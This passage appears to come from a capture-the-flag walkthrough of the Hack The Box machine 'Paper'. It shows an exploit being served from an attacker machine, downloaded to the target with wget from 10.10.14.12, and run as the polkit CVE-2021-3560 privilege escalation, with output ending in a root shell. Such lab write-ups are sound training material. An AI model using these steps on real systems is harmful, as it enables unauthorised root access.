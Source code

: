 ```sh
2022-02-07 17:12:37 (7.27 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

Start a web server on Kali so we can pull the file across:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Switch to the box and pull the exploit over:

```sh
[dwight@paper ~]$ wget http://10.10.14.12/CVE-2021-3560.py
--2022-02-07 12:15:21--  http://10.10.14.12/CVE-2021-3560.py
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/x-python]
Saving to: ‘CVE-2021-3560.py’
CVE-2021-3560.py   100%[======>]   2.38K  --.-KB/s    in 0s      
2022-02-07 12:15:21 (138 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

## Root Flag

Now run the exploit to become root:

```text
[dwight@paper ~]$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Timed out at: 0.008090460803153968
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
[+] Timed out at: 0.008392264349843527
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
bash: cannot set terminal process group (4354): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
```
